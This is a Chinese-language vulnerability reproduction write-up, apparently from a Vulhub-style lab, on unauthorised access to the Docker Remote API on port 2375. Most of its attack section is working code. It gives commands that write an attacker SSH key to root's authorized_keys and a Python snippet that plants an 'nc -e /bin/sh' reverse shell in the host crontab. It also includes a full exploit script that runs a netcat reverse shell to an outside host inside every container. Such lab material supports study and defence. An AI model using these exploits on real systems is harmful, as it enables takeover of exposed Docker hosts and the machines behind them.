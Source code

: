 # Docker daemon api 未授权访问漏洞 RCE

## 漏洞描述

Docker 是一个开源的应用容器引擎，让开发者可以打包应用及依赖包到一个轻量级、可移植的容器中，然后发布到 Linux 机器上，也可以实现虚拟化。Docker swarm 是 Docker 的集群管理工具，提供了标准的 Docker API。

在使用 Docker swarm 的时候，管理的 Docker节点上会开放一个 TCP 端口 2375，绑定在 0.0.0.0 上，直接 HTTP 访问会返回 “404 Not Found”。可以通过该 API 执行 Docker 命令，例如创建/删除 container、拉取 image、执行反弹 shell。

参考链接：

- [http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8](http://www.loner.fm/drops/#!/drops/1203.新姿势之Docker Remote API未授权访问漏洞分析和利用)

## 环境搭建

Vulhub编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

### 执行命令

列出所有镜像：

```
docker -H tcp://your-ip:2375 images
```

列出所有容器：

```
docker -H tcp://your-ip:2375 ps -a
```

启动一个已经停止的容器：

```
docker -H tcp://your-ip:2375 start <container ID>
```

连接一个已经停止的容器：

```
docker -H tcp://your-ip:2375 attach <container ID>
```

### 获取权限

#### 写入 ssh 公钥

启动一个容器，挂载宿主机的 `/root` 目录，之后将攻击者的 ssh 公钥 `~/.ssh/id_rsa.pub` 的内容写到入宿主机的 `/root/.ssh/authorized_keys` 文件中，之后就可以用 root 账户直接登录了。

本地获取 ssh 公钥：

```
ssh-keygen -t rsa
```

#### 反弹 shell

随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。可以将命令写入crontab配置文件，进行反弹shell。

```
import docker

client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

监听2333端口，接收反弹shell。

此处的反弹shell需要和/etc/crontabs/root文件同时写入，不能后续追加。

![image-20220222182515581](./images/202202221825647.png)

也可以挂载 var/spool/cron/ 目录，将反弹shell的脚本写入到 /var/spool/cron/root（centos系统）或 /var/spool/cron/crontabs/root（ubuntu系统）。

## 漏洞EXP

```python
from __future__ import print_function
import requests
import logging
import json
import urllib.parse

# NOTE
# Enable Remote API with the following command
# /usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
# This is an intended feature, remember to filter the port 2375..

name          = "docker"
description   = "Docker RCE via Open Docker API on port 2375"
author        = "Swissky"

# Step 1 - Extract id and name from each container
ip   = "127.0.0.1"
port = "2375"
data = "containers/json"
url  = "http://{}:{}/{}".format(ip, port, data)
r = requests.get(url)

if r.json:
    for container in r.json():
        container_id   = container['Id']
        container_name = container['Names'][0].replace('/','')
        print((container_id, container_name))

        # Step 2 - Prepare command
        cmd = '["nc", "192.168.1.2", "4242", "-e", "/bin/sh"]'
        data = "containers/{}/exec".format(container_name)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":'+cmd+' }'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))


        # Step 3 - Execute command
        id_cmd = r.json()['Id']
        data = "exec/{}/start".format(id_cmd)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "Detach":false,"Tty":false}'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))
        print(r)
```

